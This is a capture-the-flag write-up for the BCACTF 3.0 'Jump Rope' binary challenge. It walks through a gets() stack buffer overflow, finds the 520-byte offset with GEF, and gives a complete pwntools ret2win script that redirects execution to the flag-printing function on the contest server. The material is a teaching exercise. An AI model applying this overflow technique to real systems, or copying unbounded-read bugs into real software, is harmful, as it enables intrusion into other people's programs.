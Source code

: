 # BCACTF 3.0: Jump Rope


## Description

Here at BCA, we take fitness very seriously. Lately, our gym teachers have been stressing jumproping as cardio... I'm not too good at it yet though, but I think you might be able to show me how it's done!

I did download the challenge files 

First lets run checksec :

```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled : will prevent shellcode execution

Running the binary

!['challenge'](./challenge.png)



After seeing the souce code we have : 


```c
void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}
```

This function will give us the flag if we call it, but as we can see its not called any where in the program, so our main goal is to call this function


Next we have this function :

```c
void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}
```

We know that the dangerous part here is :

```c
 gets(arr);
```
 

We will use cyclic from gef tools to know the exact offset, as we can see in the source code the buffer size is 500 so we will use a value above that

cyclic 600 -n 8


-n 8 : cause we have a 64 bits 

```sh
$rsp   : 0x007fffffffdce8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7f9fa70  →  0x0000000000000000
$rip   : 0x00000000401259  →  <jumprope+61> ret 
```

$rip (64-bit Instruction Pointer) as we can see here we didn't override it, well 64 bits binaries have some differences, it will not allow a malformed address to go into the stack in the first place


Lets find the offset :

```sh
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 520 (little-endian search) likely
```

In order to exploit this we need


'A' * 520  +  the address of the function where we want our instruction pointer to point to.


the address of the a() function we can get it from gdb by typing :

```sh
gef➤  disas a
Dump of assembler code for function a:
   0x00000000004011b6 <+0>:	endbr64 
   0x00000000004011ba <+4>:	push   rbp
   0x00000000004011bb <+5>:	mov    rbp,rsp
   0x00000000004011be <+8>:	sub    rsp,0x70
   0x00000000004011c2 <+12>:	lea    rsi,[rip+0xe3f]        # 0x402008
   0x00000000004011c9 <+19>:	lea    rdi,[rip+0xe3a]        # 0x40200a
   0x00000000004011d0 <+26>:	call   0x4010c0 <fopen@plt>
   0x00000000004011d5 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011d9 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011de <+40>:	jne    0x4011f8 <a+66>
   0x00000000004011e0 <+42>:	lea    rdi,[rip+0xe31]        # 0x402018
   0x00000000004011e7 <+49>:	call   0x401080 <puts@plt>
   0x00000000004011ec <+54>:	lea    rdi,[rip+0xe55]        # 0x402048
   0x00000000004011f3 <+61>:	call   0x401080 <puts@plt>
   0x00000000004011f8 <+66>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011fc <+70>:	lea    rax,[rbp-0x70]
   0x0000000000401200 <+74>:	mov    esi,0x64
   0x0000000000401205 <+79>:	mov    rdi,rax
   0x0000000000401208 <+82>:	call   0x4010a0 <fgets@plt>
   0x000000000040120d <+87>:	lea    rax,[rbp-0x70]
   0x0000000000401211 <+91>:	mov    rdi,rax
   0x0000000000401214 <+94>:	call   0x401080 <puts@plt>
   0x0000000000401219 <+99>:	nop
   0x000000000040121a <+100>:	leave  
   0x000000000040121b <+101>:	ret    
End of assembler dump.
```

This is the address of a() 

```python
0x00000000004011b6 <+0>:	endbr64 
```



So the exploit will be : 


```python
import pwn
import argparse

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--remote", help="perform the attack on the remote target",
                    action="store_true")
args = parser.parse_args()
if args.remote :
    p = pwn.remote('bin.bcactf.com', 49177)
else:
    p = pwn.process("./jumprope")


## cause of the endbr64 (google it) this didnt work when i tried this localy but i it work on the remote server
#new_rip = pwn.p64(0x00000000004011b6)
 
new_rip = pwn.p64(0x00000000004011bb) # *a+5
 
offset = 520  

payload = b"".join(
    [
        b"A" * offset,
        new_rip
    ]
)
  
print(p.recvuntil('jumping!'.encode()).decode('utf-8'))

p.sendline(payload)

print(p.recv().decode('utf-8'))

p.interactive()
```

## Demo

!['demo'](exploit.gif)

I didn't solve this challenge during the competition because of the "endbr64" but the  exploit does work on the remote server except i didn't try that only after the CTF did end 💢😤


Lesson learned from here is that you should run your exploit on the remote target even if it's not working locally 🤓


